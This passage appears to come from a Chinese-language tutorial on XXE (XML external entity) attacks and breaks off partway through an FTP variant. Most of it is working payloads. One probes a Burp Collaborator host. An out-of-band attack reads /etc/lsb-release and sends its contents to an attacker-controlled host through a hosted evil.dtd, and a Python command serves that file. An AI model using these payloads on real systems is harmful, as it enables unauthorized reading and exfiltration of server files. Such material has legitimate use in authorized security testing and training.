 ```text
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://burp.collab.server" >]><foo>&xxe;</foo>
```

看看是否发送了请求

 ![](https://raw.githubusercontent.com/evilwing/wing-images/master/img/20181213132326.png) 

成功后，再利用其他payload

#### 读文件

`wing.xml`

```text
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://<evil attacker hostname>:8000/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

`vps->evil.dtd`

```text
<!ENTITY % all "<!ENTITY send SYSTEM 'http://<evil attacker hostname>:8000/?collect=%file;'>"> %all;
```

`host in dtd:`

```text
python -m SimpleHTTPServer 8000
```

#### 使用FTP读文件

`evil.xml`

```text
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
<!ENTITY % asd SYSTEM "http://<evil attacker hostname>:8090/xxe_file.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
```

`将dtd文件放在VPS上:`
